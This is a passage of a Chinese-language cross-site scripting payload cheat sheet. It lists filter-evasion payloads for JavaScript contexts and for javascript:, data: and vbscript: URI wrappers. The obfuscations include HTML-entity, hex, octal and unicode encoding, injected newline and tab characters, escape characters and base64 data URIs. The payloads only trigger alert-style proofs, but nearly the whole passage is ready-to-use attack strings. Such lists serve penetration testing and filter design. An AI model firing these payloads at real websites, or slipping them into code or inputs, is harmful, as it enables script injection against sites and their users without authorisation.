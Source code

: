 ### JS上下文中的XSS

```javascript
-(confirm)(document.domain)//
; alert(1);//
// （无引号/双引号的载荷来自[@brutelogic](https://twitter.com/brutelogic)
```

## URI包装中的XSS

### javascript包装

```javascript
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

我们可以用十六进制/八进制编码“javascript:”
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

我们可以使用换行符
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

使用转义字符
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

使用换行符和注释 //
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

### data包装

```javascript
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

### vbscript包装

仅限IE

```javascript
vbscript:msgbox("XSS")
```
